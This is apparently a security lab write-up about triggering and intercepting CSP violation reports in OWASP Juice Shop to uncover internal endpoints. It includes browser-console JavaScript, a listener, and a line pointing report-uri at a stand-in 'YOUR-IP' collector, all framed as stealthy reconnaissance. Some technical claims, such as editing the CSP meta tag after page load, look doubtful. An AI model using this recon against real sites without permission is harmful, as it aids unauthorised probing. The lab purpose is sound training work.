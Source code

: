 # 🔍 Method-18-Use-CSP-Reports-to-Reveal-Internal-Endpoints

## 🧠 Overview
Content Security Policy (CSP) is a browser security feature that instructs the browser to restrict resource loading to whitelisted domains and report violations. Attackers can passively or actively exploit CSP violation reports to extract sensitive information, including internal endpoint references, IPs, or resource load paths that are not meant to be public.

This technique focuses on intercepting or causing CSP violations in the OWASP Juice Shop application and analyzing the resulting **CSP report URIs** for clues to internal metrics or endpoint leakages.

---

## 🎯 Goal
Trigger CSP violations to force the application to disclose internal or hidden resource paths in violation reports, and analyze the report contents for internal API structure, endpoints, or misconfigured policies.

---

## ⚙️ Pre-Requisites

- Working instance of OWASP Juice Shop (Docker or local)
- Browser (with DevTools)
- Proxy tools: **Burp Suite**, **OWASP ZAP**, or **mitmproxy**
- Local listener (e.g., Python HTTP server or `nc`) to receive CSP reports
- Familiarity with HTTP headers and CSP directives

---

## 🧪 Step-by-Step Methodology

### 🔧 Step 1: Launch Juice Shop Locally
```bash
docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop
Visit http://localhost:3000

Confirm app is running.

🧠 Step 2: Understand CSP Behavior
Juice Shop might enforce CSP headers like:

http
Copy
Edit
Content-Security-Policy: default-src 'self'; report-uri /csp/report
This tells the browser: "If any resource violates the policy, send a report to /csp/report".

🎭 Step 3: Induce a Violation
Open Developer Tools → Console tab. Inject the following in browser console:

js
Copy
Edit
var img = document.createElement("img");
img.src = "http://internalhost.local/callback";
document.body.appendChild(img);
If internalhost.local is not allowed by the CSP, a violation report is triggered.

It gets POSTed to /csp/report.

🔍 Step 4: Intercept CSP Report
Use Burp Suite or ZAP to monitor POST requests made to /csp/report.

Expect payload like:

json
Copy
Edit
{
  "csp-report": {
    "document-uri": "http://localhost:3000",
    "blocked-uri": "http://internalhost.local/callback",
    "violated-directive": "img-src"
  }
}
The blocked-uri could reveal internal IPs, test endpoints, CDN assets, or telemetry/metrics locations.

🧬 Step 5: Analyze Behavior Internally
What’s happening:

Browser parses Content-Security-Policy.

When it encounters a disallowed resource (e.g., img.src = external domain), it blocks loading.

Simultaneously, sends structured JSON violation report to the report-uri.

These reports often expose:

Internal IPs

Misconfigured resource URLs

Non-production/testing URLs

Legacy or deprecated API endpoints

📡 Step 6: Host Custom CSP Report Collector (Optional)
Run a simple HTTP listener to collect CSP data externally:

bash
Copy
Edit
python3 -m http.server 9000
Then in the browser:

js
Copy
Edit
document.querySelector("meta[http-equiv='Content-Security-Policy']").setAttribute(
  "content",
  "default-src 'self'; report-uri http://YOUR-IP:9000"
);
Trigger the same violation. Check the Python server logs for report data.

🛡️ Why This Matters
CSP reports often contain backend URLs, subdomains, or API endpoints that are not visible via normal enumeration.

Reports may also expose paths related to metrics collection, third-party plugins, or shadow APIs.

This allows low-noise reconnaissance using browser-native behavior.

🧼 Cleanup
Remove the CSP meta tag or browser scripts used to inject violations.

Shut down listeners or reset proxy configurations.

🔚 Conclusion
Using CSP reports is a stealthy, low-impact method to harvest endpoint clues, especially in applications with poorly configured CSPs or internal logic leaks. Always consider chaining this technique with other passive recon tools for deep application mapping.

📎 References
MDN Web Docs: Content Security Policy (CSP)

OWASP CSP Guide
